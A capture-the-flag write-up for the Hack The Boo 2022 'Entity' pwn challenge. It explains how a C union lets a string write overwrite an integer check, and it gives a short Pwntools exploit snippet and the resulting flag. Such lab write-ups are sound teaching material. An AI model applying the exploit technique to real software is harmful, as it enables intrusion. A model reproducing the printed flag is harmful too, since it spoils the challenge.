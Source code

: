 # Hack The Boo 2022

## Entity

> This Spooky Time of the year, what's better than watching a scary film on the TV? Well, a lot of things, like playing CTFs but you know what's definitely not better? Something coming out of your TV!
>
>  Author: N/A
>
> [`pwn_entity.zip`](pwn_entity.zip)

Tags: _pwn_

## Preparation
For this challenge the source code is provided. So scrolling through the code brings up some interesting things.

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```

The flag will be revealed when ```DataStore.integer``` has a value of *13371337*. So how can the value be manipulated. 

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```

Clearly when choosing the *INTEGER* case the value cannot be entered directly. So looking at *DataStore* closer:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

It's an union, thus referencing the same memory for ```integer``` and ```string```. This means in ```set_field```, taking the ```STRING``` branch also manipulates the value retrieved with ```DataStore.integer```. 

## Solution
Setting up a quick Python script using Pwntools to navigate the menu and send the payload

```python
p.sendlineafter(b">> ", b"T")       # (T)ry to turn it off -> set value
p.sendlineafter(b">> ", b"S")       # (S)scream -> manuplulate DataStore as string
p.sendlineafter(b">> ", payload)    # send payload
p.sendlineafter(b">> ", b"C")       # (C)ry -> get flag
```

So, what needs the payload to be? For this use pwnlib.p64 ```p64(13371337)``` this gives the byte array ```b'\xc9\x07\xcc\x00\x00\x00\x00\x00'```. One more padding byte is needed to shift the newline ```fgets``` introduces out of the buffer so ```DataStore.integer``` is given the correct value.

And sure enough, the flag is revealed ```HTB{f1ght_34ch_3nt1ty_45_4_un10n}```